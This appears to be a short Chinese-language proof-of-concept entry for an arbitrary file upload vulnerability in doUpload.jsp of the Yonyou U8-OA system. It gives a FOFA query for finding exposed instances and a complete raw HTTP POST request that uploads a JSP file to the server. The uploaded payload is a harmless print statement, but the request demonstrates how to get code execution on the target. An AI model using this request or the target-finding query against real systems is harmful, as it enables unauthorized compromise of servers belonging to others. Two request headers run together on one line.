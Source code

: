 ## 用友U8-OA协同工作系统doUpload.jsp任意文件上传漏洞

## fofa
```
"用友U8 Cloud"
```
![image](../../images/c39bc2dc-867f-451b-af53-3ea1093e9546.png)

## poc
```
POST /yyoa/portal/tools/doUpload.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Connection: closeContent-Type: multipart/form-data; boundary=7b1db34fff56ef636e9a5cebcd6c9a75
Host:
Upgrade-Insecure-Requests: 1
Content-Length: 217

--7b1db34fff56ef636e9a5cebcd6c9a75
Content-Disposition: form-data; name="iconFile"; filename="info.jsp"
Content-Type: application/octet-stream

<% out.println("tteesstt1"); %>
--7b1db34fff56ef636e9a5cebcd6c9a75--
```

![image](../../images/2beed268-4f9f-4548-bdf9-a8a7f361f660.png)
